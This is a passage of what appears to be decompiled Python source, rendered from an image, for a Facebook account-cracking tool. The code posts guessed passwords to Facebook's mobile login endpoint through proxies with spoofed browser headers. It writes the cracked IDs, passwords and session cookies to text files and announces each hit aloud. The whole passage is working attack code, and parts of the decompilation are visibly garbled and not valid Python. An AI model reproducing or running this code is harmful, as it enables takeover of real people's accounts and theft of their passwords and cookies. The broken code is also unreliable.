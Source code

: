             'upgrade-insecure-requests': '1',
            'origin': 'https://m.facebook.com',
            'content-type': 'application/x-www-form-urlencoded',
            'user-agent': ua,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'x-requested-with': 'mark.via.gp',
            'sec-fetch-site': 'same-origin',
            'sec-fetch-mode': 'cors',
            'sec-fetch-user': 'empty',
            'sec-fetch-dest': 'document',
            'referer': 'https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F',
            'accept-encoding': 'gzip, deflate br',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8' }
        po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0', data = dataa, cookies = {
            'cookie': koki }, headers = heade, allow_redirects = False, proxies = proxs)
        if 'checkpoint' in po.cookies.get_dict().keys():
            print(f'''\r\x1b[10;97m[\x1b[10;92m=\x1b[10;97m]\x1b[10;91m~\x1b[10;95m[Tutul-Cp] {idf} | {pw}''')
            os.system('espeak -a 300 " Cp"')
            open('/sdcard/Tutul-Cp-id.txt', 'a').write(idf + ' | ' + pw + '\n')
            akun.append(idf + '|' + pw)
            cp += 1
            ';'.join
        if 'c_user' in ses.cookies.get_dict().keys():
            ok += 1
            coki = po.cookies.get_dict()
            kuki = (lambda .0: for key, value in .0:
[ f'''{key!s}={value!s}''' ])(ses.cookies.get_dict().items()())
            ex = random.choice([
                m,
                k,
                h,
                b,
                u,
                x])
            print(f'''\r\x1b[10;92m[Tutul-Ok💚] {idf} | {pw} \x1b[10;91m:> \x1b[10;96m{tutulx(idf)}\n\x1b[10;93m[🌺] = COOKIES\x1b[10;91m : \x1b[10;94m{kuki}''')
            linex()
            os.system('espeak -a 300 " Tutul,  Ok,  id"')
            open('/sdcard/Tutul-Ok-id.txt', 'a').write(idf + ' | ' + pw + '\n[COOKIES] = ' + kuki + '\n')
            cek_apk(session, coki)
            ';'.join
        if requests.exceptions.ConnectionError:
            time.sleep(31)
        loop += 1
        return None

if __name__ == '__main__':
    os.system('git pull')
    key == 'true'
    os.system('touch prox.txt')
apvroval.check()


